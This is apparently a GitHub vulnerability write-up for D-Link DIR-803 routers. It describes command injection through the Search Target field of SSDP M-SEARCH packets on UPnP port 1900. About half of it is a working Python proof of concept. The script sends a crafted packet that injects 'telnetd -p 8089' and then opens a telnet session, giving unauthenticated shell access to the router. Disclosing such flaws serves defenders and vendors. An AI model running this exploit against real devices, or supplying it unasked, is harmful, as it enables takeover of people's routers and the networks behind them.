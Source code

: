 # dir-803
Exploit Author: yangchunyuwhu@aliyun.com

Vendor: D-Link

Firmware: DIR-803_REVA_FIRMWARE_1.04.B02.ZIP

An issue was discovered on D-Link DIR-803 devices. Universal Plug and Play (UPnP) is enabled by default on port 1900. allowing an attacker to inject arbitrary command to the UPnP via a crafted M-SEARCH packet.An attacker can perform command injection by injecting a payload into the "Search Target" (ST) field of an SSDP M-SEARCH discovery packet.

# poc
from socket import *

from os import *

from time import *
 
payload = b'M-SEARCH * HTTP/1.1\r\n'

payload += b'HOST:localhost:1900\r\n'

payload += b'ST:urn:device:;telnetd -p 8089\r\n\r\n'
 
s = socket(AF_INET, SOCK_DGRAM, 0)

s.sendto(payload, ("192.168.0.1", 1900))

s.close()
 
sleep(1)

system("telnet 192.168.0.1 8089")

